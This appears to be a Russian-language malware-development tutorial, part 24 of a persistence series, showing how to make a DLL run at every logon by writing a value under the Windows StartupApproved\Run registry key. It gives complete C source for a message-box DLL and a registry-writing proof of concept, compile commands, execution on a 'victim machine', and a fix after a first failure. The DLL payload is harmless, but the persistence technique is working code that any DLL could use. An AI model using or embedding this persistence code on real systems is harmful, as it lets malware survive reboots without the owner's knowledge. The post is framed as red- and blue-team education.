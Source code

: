 \newpage
\subsection{90. разработка вредоносного ПО: закрепление (persistence) - часть 24. StartupApproved. Простой пример на C.}

﷽

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Этот пост основан на моем собственном исследовании еще одной интересной техники закрепления вредоносного ПО: через ключ реестра `StartupApproved`.     

### StartupApproved

В самом первом посте серии о закрепления я писал об одной из самых популярных и уже классических техник - через [ключи реестра Run keys](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html).      

Необычная запись в реестре, используемая стандартным процессом "автозагрузки" (т. е. тем, который в основном управляется проводником Windows, такими как ключи `Run` и `RunOnce`, папка автозагрузки и т. д.) после завершения работы `userinit.exe`, находится в следующем месте в реестре:    
```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Оказывается, этот ключ заполняется при включении или отключении записей на вкладке `Автозагрузка` диспетчера задач Windows:     

![pers](./images/117/2024-03-15_00-47.png){width="80%"}    

Хорошая новость в том, что мы можем использовать этот путь в реестре для закрепления.     

### практический пример

Прежде всего, проверяем ключи реестра с помощью следующей команды:    

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

![pers](./images/117/2024-03-14_23-57_1.png){width="80%"}    

На следующем шаге, как обычно, создаем наше "вредоносное" приложение (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Как обычно, просто окно с сообщением `meow-meow`.      

Затем мы просто модифицируем ключ реестра `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved`, например, так (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Как можно видеть, логика нашего Proof of Concept довольно проста - мы устанавливаем значение записи в реестре в бинарный формат `0x02 0x00...`.      

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем нашу "вредоносную" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

![pers](./images/117/2024-03-14_21-50.png){width="80%"}    

Затем компилируем наш PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/117/2024-03-14_21-51.png){width="80%"}    

Наконец, запускаем его на машине жертвы. В моем случае, для Windows 10 x64 v1903 VM, это выглядит так:     

```powershell
.\pers.exe
```

![pers](./images/117/2024-03-15_00-46.png){width="80%"}    

Как можно видеть, я также повторно проверил реестр:     

```powershell
reg query \
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" \
/s
```

![pers](./images/117/2024-03-15_00-46_1.png){width="80%"}    

Затем выходим из системы и входим снова:     

![pers](./images/117/2024-03-15_00-50.png){width="80%"}    

![pers](./images/117/2024-03-15_00-51.png){width="80%"}    

Но неожиданно для меня это не сработало...    

Затем я просто обновил имя записи:     

![pers](./images/117/2024-03-15_00-54.png){width="80%"}    

Вышел и снова вошел в систему, немного подождал... и все сработало идеально....

![pers](./images/117/2024-03-15_01-03.png){width="80%"}    

![pers](./images/117/2024-03-15_01-04.png){width="80%"}    

Таким образом, я обновил одну строку в моем скрипте:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

Но есть одна оговорка. Иногда, когда я тестировал эту функцию, она запускала, например, Skype:     

![pers](./images/117/2024-03-14_23-56.png){width="80%"}    

![pers](./images/117/2024-03-14_23-57.png){width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) и [APT33](https://attack.mitre.org/groups/G0064/) в реальных атаках. По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     
